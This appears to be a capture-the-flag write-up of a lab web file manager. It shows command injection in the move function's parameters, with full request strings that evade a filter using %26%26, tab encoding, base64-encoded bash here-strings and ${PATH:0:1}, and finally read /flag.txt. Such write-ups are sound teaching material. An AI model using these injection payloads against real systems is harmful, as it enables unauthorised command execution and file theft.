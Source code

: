 After navigating to the provided IP address, I was presented with a login form. 
![image](https://github.com/user-attachments/assets/8f63b8e7-44c3-459e-9468-332e2290d76e)

Using the credentials guest for both the username and password, I successfully logged in and accessed the main interface of the application. 
![image](https://github.com/user-attachments/assets/bf60fa83-7a6b-47c7-993e-f9a1d669be58)

The dashboard displayed a list of files, each with multiple available actions: **View, Copy to, Direct Link, and Download**. There was also an **Advanced Search** feature. Screenshots of the interface are included below for reference. This initial exploration helped me understand how the web application handled file operations, which later played a key role in identifying command injection points and exploiting them to retrieve the target flag.

Each action triggered specific HTTP GET requests, and by analyzing how the to, from, and move parameters behaved, I started mapping how file operations were executed on the backend. 

### View
```bash
GET /index.php?to=&view=51459716.txt&quickView=1
```
![image](https://github.com/user-attachments/assets/bdc65f98-b252-47f3-a07b-1515a7ef36d5)

### Copy to
```bash
GET /index.php?to=&from=51459716.txt
```
![image](https://github.com/user-attachments/assets/19de108f-c090-464c-823e-9566108aaa5b)

### Direct Link
```bash
GET /51459716.txt
```
![image](https://github.com/user-attachments/assets/b83b42fe-3c22-450e-8034-b638a8cc5615)

### Download
```bash
GET /index.php?to=&dl=51459716.txt
```
![image](https://github.com/user-attachments/assets/b2b95793-2c9b-42cd-ace5-1cf5ae02dba7)

### Advance Search
```bash
POST /index.php?to= HTTP/1.1
SNIP...
ajax=true&content=have&path=.&type=search
```
![image](https://github.com/user-attachments/assets/6873e2e7-139e-45b3-ac5b-dab7f9a283d1)

Initially, attempts to execute commands directly such as `whoami` through either `to=` or `from=` parameters were denied, returning the message **"Malicious request denied."**
**whoami in to**
![image](https://github.com/user-attachments/assets/2d4c5af4-8740-4b8d-9aeb-bd4ef6eb49d6)

**whoami in from**
![image](https://github.com/user-attachments/assets/26105475-ad8d-415e-bdf3-57f711723319)

![image](https://github.com/user-attachments/assets/2b26095f-76c4-4fc0-9f17-7af93f1fccb6)

![image](https://github.com/user-attachments/assets/c3e50e94-e288-420d-b846-8d04959c3554)

I discovered that the operator %26%26 is accepted. Based on the error message, it’s clear the server is using the mv command.
![image](https://github.com/user-attachments/assets/0099502c-8cad-4002-b6e5-7d93fd12c090)

Again doing GET /index.php?to=&from=51459716.txt%26%26whoami&finish=1&move=1;whoami gave me the same error

![image](https://github.com/user-attachments/assets/e8fec73e-719a-41f5-9bec-e10ae712f2cd)

GET /index.php?to=&from=51459716.txt%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&finish=1&move=1;whoami

![image](https://github.com/user-attachments/assets/ef55853b-7647-4ee1-9a0b-27ff212b06cb)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=51459716.txt&finish=1&move=1;whoami
![image](https://github.com/user-attachments/assets/39cdbdde-f258-4a1a-8644-87423aa8e6dc)

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"d2hvYW1p")&from=605311066.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/528ca51f-943f-4ce8-b3e8-867de6894acf)

echo -n "ls -la" | base64                   
bHMgLWxh

I am regularly changing file names because the previous file gets removed while trying to move 
GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"bHMgLWxh")&from=787113764.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/8ca9801c-e87b-4e08-b91c-7e0109704609)

echo -n "cat ${PATH:0:1}flag.txt" | base64
Y2F0IC9mbGFnLnR4dA==

GET /index.php?to=tmp%26%26bash<<<$(base64%09-d<<<"Y2F0IC9mbGFnLnR4dA==")&from=877915113.txt&finish=1&move=1
![image](https://github.com/user-attachments/assets/aac33350-f1eb-404a-8826-eb44861d12cd)

